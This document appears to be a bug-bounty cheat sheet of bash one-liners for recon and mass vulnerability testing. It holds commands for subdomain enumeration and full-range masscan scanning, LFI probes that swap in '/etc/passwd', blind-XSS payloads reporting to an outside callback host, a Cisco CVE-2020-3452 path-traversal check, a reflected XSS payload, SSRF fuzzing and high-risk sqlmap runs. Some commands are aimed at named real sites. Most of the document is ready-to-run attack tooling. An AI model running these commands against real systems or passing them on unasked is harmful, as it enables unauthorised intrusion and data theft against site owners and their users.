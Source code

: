 # Common 

## domains
```bash 
cat wildcards.txt | assetfinder -subs-only | anew domains
```

```bash 
amass enum -df wildcards.txt | anew domains
```

```bash 
subfinder -silent -dL wildcards.txt| anew domains
```

```bash 
for i in $(cat wildcards.txt);do bash ~/scripts/Sub-Drill.sh $i | anew domains;done 
```

## Port scan 

```bash
while read l; do ip=$(dig +short $l|grep -oE "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b"|head -1);echo "[+] '$l' => $ip";echo $ip >> ips.txt;done < domains.txt
```

```bash
masscan -p1-65535 -iL ips.txt --max-rate 1800 -oG output.log
```

## Filter domain by level 

```bash
cat domains | dsieve -f 2
```

## one liners and tools

```bash 
sort -u domains | httprobe > uniq.txt
```

```bash
crlfuzz -l uniq.txt -s
```

```bash
gau uniq.txt | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'
```

```bash 
cat uniq.txt |waybackurls | gf xss | sed 's/=.*/=/' | sort -u | tee FILE.txt && cat FILE.txt | dalfox -b l3gend.xss.ht pipe > OUT.txt
```

```bash
python3 ~/tools/Corsy/corsy.py -i uniq.txt 
```

```bash 
python3 ~/tools/XSStrike/xsstrike.py -u "https://www.glassdoor.com/rss/interviews.rss?id=lol" 
```

```bash
python3 ~/tools/smuggler/smuggler.py -u "https://google.com" -m GET -q
```

```bash
python3 ~/tools/mass-bounty/CRLF-Injection-Scanner/crlf_scan.py -i uniq.txt
```


* CVE-2020-3452
```bash
┌──(root㉿0xlegendkiller)-[~/cves/CVE-2020-3452]
└─# pwd
/root/cves/CVE-2020-3452
                                                                                              
┌──(root㉿0xlegendkiller)-[~/cves/CVE-2020-3452]
└─# python3 CVE-2020-3452.py -i ~/private_hackerone/playtika/domains
```

```bash 
cat uniq.txt | while read h do; do curl -sk "$h/module/?module=admin%2Fmodules%2Fmanage&id=test%22+onmousemove%3dalert(1)+xx=%22test&from_url=x"|grep -qs "onmouse" && echo "$h: VULNERABLE"; done
```

```bash
while read LINE; do curl -s -k "https://$LINE/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../" | head | grep -q "Cisco" && echo -e "[${GREEN}VULNERABLE${NC}] $LINE" || echo -e "[${RED}NOT VULNERABLE${NC}] $LINE"; done < HOSTS.txt
```

```bash
subzy -targets domains -hide_fails
```

```bash
jaeles scan -s /root/.jaeles/base-signatures/cves/* -U domains.txt
```

## Heavy 
```bash
eyewitness --web -f uniq.txt -d /path_to_save_screenshots ##### optional , takes time, better grep for juicy domains and move forward
```

```bash
for I in $(ls); do 
        echo "$I" >> index.html;
        echo "<img src=$I><br>" >> index.html;
done
```

## SSRF Test (Wayback + Burp Pro)

```bash
cat wayback.txt | gf ssrf | sort -u >> testblindssrf.txt
```

```bash
cat testblindssrf.txt | qsreplace "burp_url" >> ssrfuzz.txt

ffuf -c -w ssrfuzz.txt -u FUZZ -t 200
```

## dalfox

```bash 
python3 ~/tools/ParamSpider/paramspider.py --domain google.com -o param.txt
```

```bash
dalfox -b l3gend.xss.ht file param.txt
```

## SQL Injection Mass Testing

```bash
subfinder -d tesla.com -silent -all | httpx -silent -threads 100 | katana -d 4 -jc -ef css,png,svg,ico,woff,gif | tee -a urls
```

```bash
cat urls | gf sqli | tee -a sqli
```

```bash
while read line;do sqlmap -u $line --parse-errors --current-db --invalid-logical --invalid-bignum --invalid-string --risk 3;done < sqli
```

## Finding deadlinks
```bash
for i in $(cat uniq.txt);do deadlinks $i|anew dead_Links;done
```

```bash
deadfinder file uniq.txt -o deadfinder.json
```

> https://www.deadlinkchecker.com/website-dead-link-checker.asp

> https://ahrefs.com/broken-link-checker

> https://brokenlinkcheck.com/broken-links.php


* Find valid links from wayback, cralwers, hawked etc 
```bash
cat wayback.txt| hakcheckurl | grep "200 http" | anew wayback200
```

